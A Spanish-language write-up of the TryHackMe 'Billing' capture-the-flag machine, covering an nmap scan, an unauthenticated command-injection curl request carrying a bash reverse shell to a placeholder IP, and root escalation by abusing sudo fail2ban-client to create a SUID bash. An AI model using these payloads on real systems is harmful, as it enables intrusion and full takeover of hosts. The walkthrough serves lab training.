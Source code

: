 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/BILLING.webp)


# BILLING [TRYHACKME] / Easy
### (Unauthenticated Remote Command Execution, fail2ban firewall bypass, fail2ban abuse for privilege escalation)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# Escaneo de Nmap

```bash
nmap -p- --open -sS -sCV -T5 10.10.26.117 -n -Pn -vvv -oN nmap_scan
```

Nos encuentra 4 puertos abiertos:

- **22** (ssh)
- **80** (http)
- **3306** (MySQL)
- **5038**


![image](../zimages/Pasted_image_20250316230520.png)

Si nos metemos en la web no hay gran cosa, pero si buscamos el nombre del servicio en google añadiendo la palabra "exploit",  nos salen los siguientes resultados:

![image](../zimages/Pasted_image_20250317004012.png)

Si vemos un par de artículos, vemos que se trata de un "Unauthenticated Remote Command Execution", es decir, que vamos a poder ejecutar comandos sin tener que loguearnos. El siguiente paso es ojear como realizar esta ejecución remota de comandos. Si miramos un par de artículos, vemos el siguiente comando:

![image](../zimages/Pasted_image_20250317004702.png)

El cual usa metasploit y una shell con sh, como yo estoy acostumbrado a otros métodos, he adaptado el comando a una reverse shell con bash normal y corriente, sin necesidad de usar programas externos ni cosas raras:

```bash
curl -s 'http://10.10.26.117/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;bash -c "bash -i >& /dev/tcp/[nuestra_ip]/[puerto] 0>&1";'
```


Y recibimos la shell:

![image](../zimages/Pasted_image_20250317005048.png)

Si nos vamos a `/home/magnus/user.txt` ya obtenemos la flag de user.


# Escalada de Privilegios

Si ponemos un `sudo -l`, vemos que podemos ejecutar como root el comando `/usr/bin/fail2ban-client`:

![image](../zimages/Pasted_image_20250317005315.png)

Si nos informamos un poco de los comandos y del funcionamiento de esta herramienta, vemos que se trata de una especie de firewall frente a intrusos que intenten acceder a la máquina o realizar ataques DDoS, bloqueando IPs cuando detecta algo raro. También he visto que hay una forma de escalar privilegios cambiando configuraciones mediante el comando `set <JAIL> action <ACT> actionban <CMD>`, el cual podemos ver en la ayuda del programa:

![image](../zimages/Pasted_image_20250317005644.png)

Lo que hay que hacer es, en primer lugar, averiguar que es el JAIL y que es el ACT en ese comando. Para ello vamos a leer un poco las instrucciones que salen por defecto cuando ejecutamos `/usr/bin/fail2ban-client`. 

JAIL lo podemos averiguar con `sudo /usr/bin/fail2ban-client status`:

![image](../zimages/Pasted_image_20250317010121.png)

Esto nos dará una lista de las JAIL disponibles, ahora para los ACT disponibles sería el comando `get [JAIL] actions`, como tenemos que utilizar un JAIL, vamos a poner el que se llama "sshd", que son las configuraciones que nos interesan, las de ssh:

![image](../zimages/Pasted_image_20250317010345.png)

Ahora que ya tenemos toda la información, podemos completar el comando de escalada de privilegios:

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "cp /bin/bash /home/magnus | chmod 4755 /home/magnus/bash"
```

He puesto ese comando ya que, al estar utilizando este programa de bloqueo de IPs, no deja establecer una reverse shell, sale automáticamente de la misma. Tampoco me ha funcionado hacer el procedimiento de crear la bash en el directorio `/tmp`, así que he decidido hacerlo en `/home/magnus`:

![image](../zimages/Pasted_image_20250317010904.png)

Ahora si ejecutamos el programa bash y le pasamos el parámetro `-p`, obtenemos una shell como root:

![image](../zimages/Pasted_image_20250317011032.png)

Por último, ejecutamos en esta nueva shell el comando `cat /root/root.txt` y ya obtendríamos la flag de root.


# ./ROOTED
